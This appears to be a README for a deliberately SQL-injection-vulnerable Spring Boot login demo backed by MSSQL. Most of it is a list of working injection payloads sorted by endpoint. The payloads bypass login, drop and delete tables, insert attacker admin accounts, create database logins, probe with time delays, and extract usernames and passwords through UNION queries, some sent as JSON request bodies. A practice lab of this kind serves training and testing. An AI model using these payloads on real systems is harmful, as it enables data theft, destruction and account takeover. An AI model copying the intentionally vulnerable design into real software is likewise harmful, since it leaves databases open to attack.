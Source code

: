                     ----------- DECRIPTION --------------
Topic : Stimulate SQL INJECTION VULNERABLE Website - Login Page 
Information : Tool Postman to call API through POST method from login form 
Run :
- mvn test 
- mvn clean 
- mvn clean package 
- mvn --version 
- mvn spring-boot:run 
Database : MSSQL - MICROSOFT SQL SERVER 
Run maven spring boot : 
- Java JDK 17 and more 
- Apache maven : 3.9.9
- Java version : 21.0.6 
Port : 8080 
Model - view - Controller 
Payload : 
- "' OR '1'='1' -- "
- "user1' OR '1'='1"
/classic : 
- '; DROP TABLE UserLogin1; -- 
- ' UNION SELECT column_name FROM information_schema.columns WHERE table_name = 'UserLogin1' -- 
- '; WAITFOR DELAY '00:00:05' -- 
- ' UNION SELECT table_name FROM information_schema.tables WHERE table_catalog = DB_NAME() --  
- ' OR '1'='1' -- 
- ' UNION SELECT Username FROM UserLogin1; WAITFOR DELAY '00:00:10' -- 
- ' OR EXISTS(SELECT 1 FROM UserLogin1); WAITFOR DELAY '00:00:05' --  
- ' UNION SELECT @@VERSION -- 
- ' UNION SELECT schema_name FROM information_schema.schemata -- 
- ' DELETE FROM UserLogin1 WHERE 1=1 -- 
- '; DELETE FROM UserLogin1 WHERE 1=1; WAITFOR DELAY '00:00:05' --  
/union : 
- ' OR '1'='1' -- 
- ' UNION SELECT @@VERSION --
- ' UNION SELECT table_name FROM information_schema.tables -- 
- ' UNION SELECT Username FROM UserLogin1 -- 
- ' UNION SELECT @@VERSION AS Username FROM UserLogin1 --
- ' UNION SELECT NULL; WAITFOR DELAY '00:00:05'; DELETE FROM UserLogin1 --
- ' UNION ALL SELECT Username FROM UserLogin1 --
- ' ; EXEC sp_executesql N'CREATE LOGIN test_user WITH PASSWORD = ''StrongPass123!'''; --
/union1 : 
- '; INSERT INTO UserLogin1 (Username, Password, Email, Role) VALUES ('attacker', HASHBYTES('SHA2_256', 'P@ssword123'), 'attacker@mail.com', 'admin'); --
- ' ORDER BY 1 -- 
- '; DELETE FROM UserLogin1 -- 
/blind-time : 
- 1=1 AND 1=1
- 1=1 AND 1=2 
- 1=1
- 1=2 
- 1=1 OR 1=1 
- 1=1 OR 1=2 

<!-- /time : 
- ' WAITFOR DELAY '0:0:5' --
- ' OR username = 'admin' -- 
- ' OR substring(Username, 1, 1) = 'a' -- 
- ' OR 1=1 WAITFOR DELAY '00:00:05' --  -->
/error 
- ' UNION SELECT NULL --
- ' UNION SELECT 1/0 --
- ' ORDER BY 1 --
- ' UNION SELECT @@VERSION --
- ' UNION SELECT CAST('abc' AS INT) -
- ' UNION SELECT CONVERT(INT, 'abc') --
- ' UNION SELECT CAST(@@version AS INT) --
/stacked 
- admin'; INSERT INTO Logs (Message) VALUES ('SQL Injection Success!'); --
- '; INSERT INTO Logs (Message) VALUES ('Hacked') --
- '; UPDATE UserLogin1 SET Role='admin' WHERE Username='user1' --
- '; DELETE FROM UserLogin1 --
- '; INSERT INTO UserLogin1 (Username, Password) VALUES ('admin2', 'password123') --
/update-bio : 
- {
    "username": "admin",
    "bio": "'; DROP TABLE UserLogin2 --"
}
- {
    "username": "admin",
    "bio": "' + (SELECT password FROM UserLogin2 WHERE username = 'admin') + '"
}
- {
    "username": "admin",
    "bio": "'; INSERT INTO UserLogin2 (Username, Password, Bio) VALUES ('attacker', 'P@ssw0rd', 'Admin access'); --"
}
- {
    "username": "admin",
    "bio": "'; DELETE FROM UserLogin2 WHERE Username != 'admin'; --"
}
- {
    "username": "admin",
    "bio": "'; UPDATE UserLogin2 SET Password = 'new_hacked_password' WHERE Username = 'admin'; --"
}
- {
    "username": "hacker",
    "bio": "'; UPDATE UserLogin2 SET Bio = 'System administrator' WHERE Username = 'hacker'; --"
}
/view-bio 
- {
    "username": "' UNION SELECT username + ':' + password FROM UserLogin2 -- "
}
- {
    "username": "' UNION SELECT DB_NAME() -- "
}
- {
    "username": "' UNION SELECT TABLE_NAME FROM INFORMATION_SCHEMA.TABLES -- "
}
- {
    "username": "' UNION SELECT COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME='UserLogin2' -- "
}
- {
    "username": "' UNION SELECT password FROM UserLogin2 WHERE username='admin' -- "
}
